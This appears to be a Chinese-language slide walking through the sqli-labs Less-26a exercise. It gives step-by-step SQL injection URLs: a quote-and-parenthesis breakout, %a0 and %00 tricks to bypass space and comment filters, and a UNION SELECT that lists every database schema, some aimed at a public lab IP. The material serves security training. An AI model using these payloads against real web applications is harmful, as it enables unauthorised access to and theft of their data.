

# Less-26a
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1/sqli/Less-26a/?id=1 返回数据正常
2. http://127.0.0.1/sqli/Less-26a/?id=1’ 此时没有数据返回
3. http://127.0.0.1/sqli/Less-26a/?id=1’) ;%00此时我们可以得到返回正常的数据
因为windows的原因，我们使用linux搭建的靶机进行接下来的操作：
4. 代码中  //print_r(mysql_error()); 屏蔽了返回的错误，所以这里我们不能使用报错注入。我们使用联合查询注入
5. http://47.100.118.240:8888/Less-26a/?id=111‘) %a0 union %a0 select %a0  1,2,3;%00 直接将所有的空格替换为%a0,根据hint得到可以回显的位置。(特别感谢网络上无偿提供搭建环境的人，感谢您的帮助)
6. http://47.100.118.240:8888/Less-26a/?id=111‘) %a0 union %a0 select %a0  1,2,group_concat(schema_name)  %a0 from %a0  infoorrmation_schema.schemata     ;%00  获取所有的数据库
7. 记得空格使用%a0进行替换，不要直接复制ppt，因为里面的英文逗号会被转成中文的